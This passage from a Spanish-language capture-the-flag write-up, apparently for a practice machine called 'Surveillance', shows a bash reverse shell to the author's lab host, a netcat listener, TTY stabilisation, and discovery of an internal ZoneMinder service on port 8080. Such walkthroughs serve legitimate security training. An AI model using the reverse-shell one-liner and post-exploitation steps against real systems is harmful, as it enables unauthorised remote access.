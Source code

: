 Vamos a movernos a una reverse shell ya que hay una tarea de limpiado corriendo en la máquina, y es un poco agresiva

```bash
> bash -c "bash -i >& /dev/tcp/10.10.14.10/443 0>&1"
```

```bash
❯ nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.245 60646
bash: cannot set terminal process group (1090): Inappropriate ioctl for device
bash: no job control in this shell
www-data@surveillance:~/html/craft/web$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@surveillance:~/html/craft/web$ ^Z
[1]  + 8262 suspended  nc -lvnp 443

❯ stty raw -echo; fg
[1]  + 8262 continued  nc -lvnp 443
                                   reset xterm
www-data@surveillance:~/html/craft/web$ export TERM=xterm-256color
www-data@surveillance:~/html/craft/web$ source /etc/skel/.bashrc
www-data@surveillance:~/html/craft/web$ stty rows 34 columns 149
```

### zoneminder

Okay, si vemos los puertos abiertos encontraremos uno peculiar:

```bash
www-data@surveillance:~/html/craft/web$ netstat -nat
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN     
tcp        0      5 10.10.11.245:60646      10.10.14.10:443         ESTABLISHED
tcp6       0      0 :::22                   :::*                    LISTEN     
```

El 8080 está abierto y no está expuesto al exterior, y viendo el HTML con curl parece ser de un software conocido como [ZoneMinder](https://es.wikipedia.org/wiki/ZoneMinder)

> Es un software para el seguimiento a través de circuito cerrado de televisión (Wikipedia)

```bash
www-data@surveillance:~/html/craft/web$ curl -v http://127.0.0.1:8080
*   Trying 127.0.0.1:8080...
* Connected to 127.0.0.1 (127.0.0.1) port 8080 (#0)
> GET / HTTP/1.1
> Host: 127.0.0.1:8080
> User-Agent: curl/7.81.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Server: nginx/1.18.0 (Ubuntu)
< Date: Tue, 30 Apr 2024 01:13:08 GMT
< Content-Type: text/html; charset=UTF-8
< Transfer-Encoding: chunked
< Connection: keep-alive
< Set-Cookie: ZMSESSID=sg8u2f50kujopt0ogt9ijjja01; expires=Tue, 30-Apr-2024 02:13:07 GMT; Max-Age=3600; path=/; HttpOnly; SameSite=Strict
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
```